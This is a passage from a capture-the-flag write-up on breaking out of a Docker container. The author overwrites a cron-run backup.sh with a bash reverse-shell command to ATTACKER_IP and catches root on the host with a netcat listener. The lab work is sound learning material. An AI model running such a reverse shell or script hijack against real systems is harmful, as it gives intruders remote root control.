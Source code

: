 **backup.sh:**

![screenshot31](../assets/images/dogcat/screenshot31.png)

Looks like the shell script uses `tar` to archive the contents of /root/container into a backup file called backup.tar. 

Since this is a backup file, we can assume that this runs periodically as a cronjob. Furthermore, we can actually write over this file as we have root privileges! This is great as this means that we can overwrite the contents and write in a command to open up a reverse shell. The file will then be executed by the root user outside of the container after some time has passed.

We'll use a basic bash reverse shell [payload](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#bash-tcp).

To overwrite the backup.sh file, we use:

```
echo '#!/bin/bash\nbash -i >& /dev/tcp/ATTACKER_IP/4242 0>&1' > backup.sh
```

We then set up a netcat listener on our local machine.

After some time, a reverse shell is opened and we successfully break out of the container. We're now in the actual target machine as the root user!

![screenshot32](../assets/images/dogcat/screenshot32.png)

With that, we can obtain flag 4 from /root of the actual machine:

![screenshot33](../assets/images/dogcat/screenshot33.png)
